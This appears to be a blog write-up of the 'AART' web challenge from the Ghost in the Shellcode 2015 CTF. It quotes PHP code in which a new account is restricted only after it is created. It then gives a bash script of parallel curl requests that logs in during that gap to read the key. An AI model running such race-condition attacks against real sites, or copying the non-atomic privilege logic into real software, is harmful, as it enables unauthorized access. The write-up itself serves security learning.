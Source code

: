 ```yaml
---
layout: post
title: "AART"
date: 2015-01-18
ctf: Ghost in the Shellcode 2015
author: Pegasus
---
```


## Web

### 200 Points

Also found [here](http://www.rjthomas.eu/2015/01/19/afnom-ghost-in-the-shellcode-2015-ctf-write-up/).

The challenge was supplied with source code which had the PHP scripts and the schema for the database running on the site. We noticed that for a while, submitted 'artwork' wasn't correctly showing up on the homepage, and we assume this was fixed as we saw people trying to run different attempts.

From the source code, we didn't have much to work from - we identified a few opportunities for injection, notably in the $_POST used by PHP. However, we couldn't inject anything useful there, as the username was sanitised and the password was simply matched against entries.

One interesting thing we noticed however was this in register.php.
{% highlight php %}
if(isset($_POST['username'])){
  $username = mysqli_real_escape_string($conn, $_POST['username']);
  $password = mysqli_real_escape_string($conn, $_POST['password']);

  $sql = "INSERT into users (username, password) values ('$username', '$password');";

  mysqli_query($conn, $sql);
  $sql = "INSERT into privs (userid, isRestricted) values ((select users.id from users where username='$username'), TRUE);";
  mysqli_query($conn, $sql);
  ?>
  <h2>SUCCESS!</h2>
{% endhighlight %}

  So - what does this mean for us?
  Well, there's a race condition present in this 'snippet' - it inserts the user details (sanitised, of course!) into the database, and then performs a second query to restrict the account (you don't get access to the key if your user ID is present in this restricted table. Thanks to Abstract for this idea.

  This meant we had to find a way around this bit of code:
{% highlight php %}
$uid = $row['id'];
$sql = "SELECT isRestricted from privs where userid='$uid' and isRestricted=TRUE;";
$result = mysqli_query($conn, $sql);
$row = $result->fetch_assoc();
if($row['isRestricted']){
  ?>
  <h2>This is a restricted account</h2>
  <?php
  }else{
    ?>
    <h2><?php include('../key');?></h2>
    <?php
  }
  ?>
{% endhighlight %}

So - one could write something that performs some multi-threaded operations and manages to perform a login operation just as the account is registered and the privileges aren't restricted. This is going to be a bit difficult to time correctly, so why not just use a bash script with cURL?

{% highlight bash %}  
  #!/bin/bash
  for i in {1..50}
  do
  curl --data "username=leet_hackeri$i&password=12345" http://aart.2015.ghostintheshellcode.com/register.php -s >&1 >/dev/null &
  curl --data "username=leet_hackeri$i&password=12345" http://aart.2015.ghostintheshellcode.com/login.php
  done
{% endhighlight %}

With this done, any registration queries would be executed, but I wouldn't be inundated with the HTML generated by the registration pages and only get the results of the login pages.

Over time, I started to see 'this is a key', instead of 'This is a restricted account'. Now, I thought nothing of this until I saw it repeatedly inside a `<h2>` tag. This tied in what was in the PHP script where the privileges were not set. Submitting 'this is a key' as the token gave us a correct answer and the 200 Points for the challenge.

###Notes

For this to have worked, it's a 'all in or bust' attempt. Once the account is registered, there's no going back, so you immediately need to test it, hence why the bash script was written as it was. If we had tried this in a browser (unless we had BURP intercepting everything and we delayed until we were ready for the right time), we likely would not have succeeded.
    I've also seen some interesting solutions using Python and Perl, all of which are as suitable as mine, but I found this would do the work for me.
